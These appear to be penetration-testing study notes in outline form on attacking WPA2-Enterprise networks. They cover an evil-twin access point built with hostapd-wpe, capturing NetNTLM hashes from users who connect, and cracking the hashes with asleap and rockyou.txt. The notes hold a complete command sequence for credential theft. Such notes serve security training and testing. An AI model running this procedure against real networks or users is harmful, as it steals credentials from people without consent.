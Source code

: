 - all users will have their own user/pass
- authentication is managed through a radius server
- How to attack
	- evil twin attack

# Use modified hostapd to spin up a wpa2 enterprise fake AP
- the only issue is that any password captured will be encrypted and you will need to use hashcat and attempt to crack them

## install:
- apt-get update
- apt-get install hostapd-wpe

## Modify default config file
- leafpad /etc/hostapd-wpe/hostapd-wpe.conf
   - update interface name
   - modify ssid
   - ctrl s ctrl q

## setup attack
- service NetworkManager stop

## run attack:
- hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
- After user enters credentials we will have all we need to crack password
   - what we get is an netntlm hash

## Crack password
- you can use hashcat or asleap
- to use esleap
   - asleap -C a5:5e:3a:f5:4b:d8:db:ff -R [some really long text goes here] -W rockyou.txt
      - 1- C is the challenge
      - 2- -R is the response 

